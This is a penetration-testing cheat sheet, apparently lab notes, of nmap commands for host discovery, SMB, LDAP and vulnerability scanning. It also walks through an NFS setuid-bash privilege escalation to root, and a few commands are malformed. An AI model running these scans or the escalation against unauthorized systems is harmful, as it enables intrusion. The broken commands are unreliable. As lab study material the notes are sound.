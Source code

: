 
### ~={green}Basic command=~
``` bash
sudo nmap 10.10.11.14
```

### ~={green}Aggressive scan / Extensive scan=~
``` bash
sudo nmap -T4 -A -v 10.10.11.14
```

### ~={green}Smb enum scan=~
```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.95.77
```
###  ~={green}Scan all port=~
```c
sudo nmap -p- --min-rate=10000 -oG broker-allport 10.10.11.243
```

```bash
nmap -A -p- -T4 10.129.131.95
```

```
sudo nmap -sC -sV -A -oA solarlab 10.129.60.6 -v
```

### ~={green}Enumerate the directories=~
```
sudo nmap -sV --script=http-enum 10.10.11.243
```

### ~={green}Discover the hostnames that resolve the targeted domain=~
```
sudo nmap --script hostmap-bfk -script-args hostmap-bfk.prefix=hostmap- 10.10.11.243
```

### ~={green}Perform an HTTP trace on the targeted domain=~
```
sudo nmap -p80 --script http-waf-detect 10.10.11.243
```

### ~={green}Host Discovery using ARP=~
```
sudo  nmap -PR -sn 192.168.0.0/24 10.10.11.243
```

### ~={green}Host Discovery using ICMP=~
```
sudo  nmap -PE -sn 192.168.0.0/24
```

```
sudo  nmap -PP -sn 192.168.0.0/24
```

```
sudo  nmap -PM -sn 192.168.0.0/24
```

### ~={green}Host Discovery using TCP and UDP=~
```
sudo nmap -PS -sn 192.168.0.0/24      # TCP SYN
```

```
sudo nmap -PA -sn 192.168.0.0/24      # TCP ACK
```

```
sudo nmap -PU -sn 192.168.0.0/24      # UDP
```

### ~={green} Command to get only ports number=~
```
┌──(voldemort@ideapad)-[~/thm]
└─$ nmap 10.17.104.140 -p- | grep "^[0-9]" | awk -F'/' '{print $1}' | tr '\n' ',' | sed 's/,$//'

80,111,2049,8834,17500,40349,44879,48467,50031,52047,57621,59277
```

### ~={green}Identify all active hosts in a network=~
```bash
nmap -sP <target_IP>/Subnet
```

### ~={green}Do a Stelth Scan, Invading firewall, IDS/IPS=~
```bash
nmap -sS -p 80, 443 <target_IP>/Subnet
```

### ~={green}Identify the OS of the machine hosting a DB=~
```bash
nmap -p3306,1433 IP/subnet
```

### ~={green}Locate IP address of the machine with RDP open port=~
```bash
nmap -Pn -p -sV 3389 <target_IP>
```

### ~={green}Find FQDN of domain controller=~

FQDN (**FQDN = Hostname + Domain**) an example can be: mail.example.com mail (hostname), example.com (domain).

Scan subnet or target filtering for LDAP port (389):

* `nmap -p389 -sV -iL <target_list>` -> if we've more targets IP

or

* `nmap -p389 -sV <target_IP>`

or

* `nmap -p 389 --script ldap-rootdse <target_IP>`

If LDAP port is filtered or closed, we should try to scan host using following parameters:

* `nmap -Pn -A <target_IP>`

In alternative we can find following ports opened: 88 (Kerberos), 636 (LDAPS), 3268 (LDAP Global).

Running nmap command we'll retrieve info about Domain and Host name:

* Domain: pentester.team Service Info: Host: DC;
* then FQDN = DC.pentester.team

### ~={green}Identify the number of hosts that are alive=~

to checks hosts up: 
```bash 
nmap -sn IP/Subnet
```

### ~={green}Identify potential vulnerabilities of services=~

```bash 
 nmap -Pn --script vuln <target_IP>
```

### ~={green}Perform vertical privilege escalation of a root user, and enter the flag=~

Exploiting misconfigured NFS (port 2049)

* `nmap -sV —p 2049 IP/Subnet`
* `sudo apt-get install nfs-common`
* `nmap -sV —script=nfs-showmount <Target_IP>`
* check available mounts: `showmount -e <Target_IP>` -> we will see /home directory
* `mkdir /tmp/nfs`
* `sudo mount -t nfs 10.10.1.9:/home /tmp/nfs`&#x20;
* `cd /tmp/nfs`
* `sudo cp /bin/bash .`
* `sudo chmod +s bash` -> it will be highlighted in red
* `ls -la`
* `sudo df -h`
* `sudo chmod +s bash`&#x20;

after them, In another terminal:

* Access to target using SSH
* `./bash -p` and we're root!
* `cd /home`
* `ls -la`
* Find the flag: `find / -name "*.txt" -ls 2> /dev/null`

### ~={green} Promiscuous Detection Tools=~ 
*Keywords: Wireshark, Detect, sniffer
```bash
nmap --script=sniffer-detect {target ip/ range of ip}
```